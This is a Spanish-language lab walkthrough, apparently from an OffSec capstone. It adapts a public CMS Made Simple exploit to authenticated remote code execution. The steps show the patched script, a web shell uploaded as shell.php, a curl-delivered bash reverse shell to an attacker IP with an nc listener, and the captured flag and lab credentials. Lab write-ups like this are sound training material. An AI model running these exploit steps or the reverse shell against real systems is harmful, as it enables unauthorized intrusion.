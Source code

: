 # Walk : Fixing Exploits - Fixing Web Exploits - Module Exercise VM #1 

## Fecha: 12/06/2025
## Host: Linux
## IP: 192.168.161.52
## Objetivo
{OBJETIVO}
## Herramientas
1. tool - 1 
2. tool - 2
## Procedimiento y comandos
#### Paso 1: Arreglamos el script a nuestras necesidades:

1. Modificamos la variable **base_url** con nuestro traget

* base_url = "http://192.168.161.52/cmsms/admin"

2. Modificamos las variables username y password por defecto con las que se nos proveen en el capstone

* Username = offsec
* password = "lFEZK1vMpzeyZ71e8kRRqXrFAs9X16iJ"

3. Agregamos en la funcion **authenticate** un punto de debuging:
```bash
print "[*] Location header: {}".format(response.headers.get('Location', 'None'))
```
4. Modificamos la variable **csrf_param**

* csrf_param = "_sk_"

5. Modificamos la funcion parse_csrf_token:
```bash
def parse_csrf_token(location):
    if csrf_param + "=" in location:
        return location.split(csrf_param + "=")[1].split("&")[0]
    else:
        print "[-] CSRF token not found in location header"
        return None
```
#### Flujo de prueba y error completo:

```bash
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# python2 44976_fixed_cap.py
[+] Authenticated successfully with the supplied credentials
[*] Location header: http://192.168.161.52/cmsms/admin?_sk_=393c7b7c7c19aed6eef
Traceback (most recent call last):
  File "44976_fixed_cap.py", line 104, in <module>
    run()
  File "44976_fixed_cap.py", line 95, in run
    cookies,csrf_token = authenticate()
  File "44976_fixed_cap.py", line 39, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_fixed_cap.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range

┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# nano 44976_fixed_cap.py
                                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# python2 44976_fixed_cap.py
[+] Authenticated successfully with the supplied credentials
[*] Location header: http://192.168.161.52/cmsms/admin?_sk_=393c7b7c7c19aed6eef
Traceback (most recent call last):
  File "44976_fixed_cap.py", line 104, in <module>
    run()
  File "44976_fixed_cap.py", line 95, in run
    cookies,csrf_token = authenticate()
  File "44976_fixed_cap.py", line 39, in authenticate
    return response.cookies, parse_csrf_token(response.headers['Location'])
  File "44976_fixed_cap.py", line 24, in parse_csrf_token
    return location.split(csrf_param + "=")[1]
IndexError: list index out of range
                                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# nano 44976_fixed_cap.py
                                                                                                                                                                                                                  
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# python2 44976_fixed_cap.py
[+] Authenticated successfully with the supplied credentials
[*] Location header: http://192.168.161.52/cmsms/admin?_sk_=b4e217c2d4046d5dc53
[*] Attempting to upload cmsmsrce.txt...
[+] Successfully uploaded cmsmsrce.txt
[*] Attempting to copy cmsmsrce.txt to shell.php...
[+] File copied successfully
[+] Exploit succeeded, shell can be found at: http://192.168.161.52/cmsms/uploads/shell.php                                              

```
#### Paso 2: Obtenemos un reverse shell:
1. Con nc escuchando en el puerto 4444 ejecutamos:
```bash
┌──(root㉿kali)-[/home/…/14-FixingExploits/02-WebExploits/Capstones/01_Cap]
└─# curl "http://192.168.161.52/cmsms/uploads/shell.php?cmd=bash%20-c%20'bash%20-i%20%3E%26%20/dev/tcp/192.168.45.213/4444%200%3E%261'"

```
2. En el receptor
```bash
┌──(root㉿kali)-[/home/kali/OffSec/14-FixingExploits/02-WebExploits]
└─# nc -lvnp 4444                        
listening on [any] 4444 ...
connect to [192.168.45.213] from (UNKNOWN) [192.168.161.52] 59702
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@82bc94b327af:/var/www/html/cmsms/uploads$ 
```
#### Obtenemos el flag:

```bash
www-data@82bc94b327af:/var/www/html/cmsms/uploads$ cd /
cd /
www-data@82bc94b327af:/$ cd home
cd home
www-data@82bc94b327af:/home$ ls
ls
flag.txt
www-data@82bc94b327af:/home$ cat flag.txt
cat flag.txt
OS{3b3bd6e155c59a8f18fec11c345e2836}
www-data@82bc94b327af:/home$ 
```

## Troubleshooting
* El script esta en **python2**


